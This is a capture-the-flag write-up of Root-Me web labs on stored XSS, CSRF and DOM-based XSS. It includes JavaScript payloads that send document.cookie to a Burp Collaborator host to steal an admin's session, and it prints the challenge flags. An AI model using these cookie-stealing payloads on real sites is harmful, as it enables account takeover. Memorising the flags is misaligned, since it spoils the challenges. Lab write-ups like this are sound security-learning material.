 ## XSS - Stored 1

**Goal**: get Admin's cookie.

**Step1**: Check the website and see that the website allows you to enter the title and message and display it on the screen.

![image](https://user-images.githubusercontent.com/63194321/149622717-972c52a2-5f45-4edd-869f-9701c6c03ace.png)

**Step2**: Try executing a script on the website and the site did ==> The site is capable of XSS attacks.

![image](https://user-images.githubusercontent.com/63194321/149622932-10a5c7cb-7f7e-4f73-8145-0ac8d0fe448b.png)

**Step3:** After learning about [document.location](https://developer.mozilla.org/en-US/docs/Web/API/Document/write), we will use this function to send cookies.
> <script>document.write("<img src='http://burp-collaborator/?c="+document.cookie+"'>");</script>

![image](https://user-images.githubusercontent.com/63194321/149623466-20243489-59d1-4d0f-802b-78c6619f02e8.png)

**Step4**: Flag: NkI9qe4cdLIO2P7MIsWS8ofD6


## CSRF - 0 protection

**Step1** Visit the website to register and log in. Visit the website to register and log in.

![image](https://user-images.githubusercontent.com/63194321/149623747-68d4c635-c68a-4f21-8bf2-9a2970054444.png)

**Step2** Access to profile edit profile and save.

![image](https://user-images.githubusercontent.com/63194321/149623810-a2607c5e-1c88-49c3-ab2b-75531ce99cd1.png)

**Step3** Proceed to generate CSRF code to attack.

![image](https://user-images.githubusercontent.com/63194321/149623847-be1a78f1-4011-4bf7-87c4-103f31c44fb6.png)

**Step4** Copy the CSRF code sent to `Comment` at `Contact`

![image](https://user-images.githubusercontent.com/63194321/149623889-07410a7a-94f0-444a-a7f3-6ac4891ae057.png)

**Step5**: ![image](https://user-images.githubusercontent.com/63194321/149623924-5a1bbe6a-0a7c-46c6-8e77-2d672081c3d8.png)

![image](https://user-images.githubusercontent.com/63194321/149623929-8dd54065-293a-4b72-8f62-29501cba5b99.png)


## XSS DOM Based - Introduction

**Step1** Access the lab at `main` page and enter any number and you will see the results appear on `URL`.

![image](https://user-images.githubusercontent.com/63194321/149625297-952ead66-aff1-4bf4-a675-aff8a369c684.png)

**Step2** Opening `inspect` we will see that if we enter any number, it will be saved directly into the `DOM` of the browser.

![image](https://user-images.githubusercontent.com/63194321/149625437-c3f4a697-d82b-445b-8494-be4b7b4ed1d0.png)

**Step3** We use this to insert a test payload.

> 1'; alert`hello`;

![image](https://user-images.githubusercontent.com/63194321/149625544-00575cfe-031c-4a6c-9cc2-505c7b4062fe.png)

**Step4** We will send a payload to perform the sending of admin cookies to us.
> ';document.location.href='https://burp-collaborator/?itworks='.concat(document.cookie);//

(The url uses document.location to directly redirect, the url is url encoded, the payload breaks out of the client script by suffix '; and prefix // respectively)


**Step5** Copy the `URL` passed to the contact and send that URL code.

![image](https://user-images.githubusercontent.com/63194321/149625733-0ae4c83a-ea57-44a9-be93-6f1c7d5dd283.png)

**Step6** Check out the Burp Collaborator.

![image](https://user-images.githubusercontent.com/63194321/149626421-cbc2297d-eeb1-459d-ae97-6144ecb1aa3f.png)

**Step7** Flag is: **rootme{XSS_D0M_BaSed_InTr0}**

